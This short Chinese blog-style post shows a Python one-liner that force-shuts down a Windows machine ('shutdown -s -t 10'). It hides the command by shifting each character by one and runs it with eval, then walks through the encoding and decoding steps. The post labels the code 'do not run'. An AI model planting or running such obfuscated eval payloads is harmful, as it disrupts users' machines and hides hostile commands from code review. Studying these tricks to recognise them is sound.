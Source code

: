 # Python代码藏毒

今天看到一段非常狗的代码，在这里进行记录。

这段代码一运行会直接关机

## 实例

```python
# 不要运行！！！！！
a = "^^hlonqs^^'!nr!(-rxrsdl'!rgtscnvm,r,s0/!("
eval(''.join(''.join([chr(ord(i)+1) for i in a])))
```

## 生成过程

明文代码

```python
import os
os.system("shutdown -s -t 10")



```

混淆一点点

```python
__import__("os").system("shutdown -s -t 10")
```

全部混淆

```python
# 混淆.py
a = '__import__("os").system("shutdown -s -t 10")'
b = ''.join([chr(ord(i)-1) for i in a])
print(b)

```

```bash
python.exe 混淆.py
^^hlonqs^^'!nr!(-rxrsdl'!rgtscnvm,r,s0/!(
```

解密程序

```python
a = "^^hlonqs^^'!nr!(-rxrsdl'!rgtscnvm,r,s0/!("
b = ''.join(''.join([chr(ord(i)+1) for i in a]))
print(b)
```

eval运行程序

```python
a = "^^hlonqs^^'!nr!(-rxrsdl'!rgtscnvm,r,s0/!("
b = ''.join(''.join([chr(ord(i)+1) for i in a]))
print(b)
```

